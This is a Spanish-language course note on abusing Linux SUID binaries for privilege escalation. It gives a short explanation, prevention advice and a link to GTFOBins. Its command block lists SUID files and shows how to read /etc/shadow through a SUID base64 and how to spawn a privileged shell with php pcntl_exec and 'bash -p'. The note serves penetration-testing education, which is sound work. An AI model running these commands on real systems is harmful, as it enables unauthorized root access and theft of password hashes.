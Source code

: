 # Abusando de privilegios SUID

Tags: #Linux #SUID  #Escalada #Root #Privilegios 

Un privilegio **SUID** (**Set User ID**) es un permiso especial que se puede establecer en un archivo binario en sistemas Unix/Linux. Este permiso le da al usuario que ejecuta el archivo los **mismos privilegios** que el **propietario** del archivo.

Por ejemplo, si un archivo binario tiene establecido el permiso SUID y es propiedad del usuario root, cualquier usuario que lo ejecute adquirirá temporalmente los mismos privilegios que el usuario root, lo que le permitirá realizar acciones que normalmente no podría hacer como un usuario normal.

El abuso de privilegios SUID es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Si un atacante es capaz de obtener acceso a un archivo binario con permisos SUID, puede ejecutar comandos con privilegios especiales y realizar acciones maliciosas en el sistema.

Para prevenir el abuso de privilegios SUID, se recomienda limitar el número de archivos con permisos SUID y asegurarse de que solo se otorguen a archivos que requieran este permiso para funcionar correctamente. Además, es importante monitorear regularmente el sistema para detectar cambios inesperados en los permisos de los archivos y para buscar posibles brechas de seguridad.

Una vez más, se os comparte el mismo recurso que en la clase anterior, dado que esta página también contempla los binarios con permiso SUID que potencialmente pueden ser explotados:

- **GTFOBins**: [https://gtfobins.github.io](https://gtfobins.github.io/)


## SUID

En la pagina de GTFOBins buscamos el comando y la pestaña de **SUID**
* El comando que tiene un privilegios SUID contiene una **S**  o 4755
* Este tipo de comandos afecta a nivel de sistema a todos los usuarios 

```bash 
❯ find / -perm -4000 2>/dev/null                  # Para ver que comandos son SUID, los buscamos desde la raiz 
❯ find / -perm -4000 -ls 2>/dev/null              # Para ver que comandos son SUID, los buscamos desde la raiz y ademas miramos el privilegio
❯ find \-user <username> 2>/dev/null             # Para ver que comandos donde el propiertario es es usuario

# Podemos encontrar comandos asi:
-rwsr-xr-x 1 root root 8756 Feb 7 2022 /usr/bin/base64
-rwsr-xr-x 1 root root 8756 Feb 9 2022 /usr/bin/php8.1

# Podremos ejecutar el comando si es SUID como el propietario de forma temporal sin passwd
❯ base64 /etc/shadow | base64 -d                  # Podriamos ver el /etc/shadow

❯ php -r "pcntl_exec('/bin/sh', ['-p']);"         # Podemos obtener una consola interactiva
❯ bash -p                                         # Obtener la consola bash, p = privilege
```


